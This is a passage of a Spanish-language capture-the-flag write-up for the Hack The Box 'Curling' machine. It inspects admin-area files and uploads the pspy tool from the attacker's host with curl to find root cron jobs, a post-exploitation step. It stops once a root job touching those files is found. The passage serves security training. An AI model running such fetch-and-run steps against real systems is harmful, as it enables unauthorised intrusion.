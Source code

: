 Revisando el contenido de cada uno tenemos:

```bash
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

```html
floris@curling:~/admin-area$ cat report
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        ...
...
```

El objeto `report` tiene el mismo código **HTML** que si hacemos una petición hacia el recurso `http://10.10.10.150`, con lo cual sabemos que internamente también esta siendo ejecutado el **CMS** `Joomla`...

Sin entender muy bien que hacer me puse a enumerar que instrucciones o acciones están siendo ejecutadas de manera -automatizada- en el sistema.

Existen varios métodos, pero hay una herramienta llamada [pspy](https://github.com/DominicBreuker/pspy) que hace un recorrido por el sistema buscando tareas que se estén ejecutando.

Descargamos el binario de [acá](https://github.com/DominicBreuker/pspy/releases) y lo subimos a la máquina:

```bash
# Creamos entorno de trabajo
floris@curling:/tmp$ mkdir miacosa
floris@curling:/tmp$ cd miacosa/
floris@curling:/tmp/miacosa$ curl http://10.10.14.5:8000/pspy -o pspy
floris@curling:/tmp/miacosa$ file pspy 
pspy: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped
```

Listo, ahora lo ejecutamos:

```bash
floris@curling:/tmp/miacosa$ chmod +x pspy
floris@curling:/tmp/miacosa$ ./pspy
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_pspy_FOUNDcurl.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

OPAAAAAAAAAa, existen dos instrucciones siendo ejecutadas por el usuario `root` (por el **UID** (user id), ***root*** siempre tiene asignado `0`), pero solo una nos llama la atención, ya que esta interactuando con los archivos `input` y `report`, los dos objetos que encontramos antes y que tenían fecha-hora igual. ¡Ahí esta la razón de eso!!
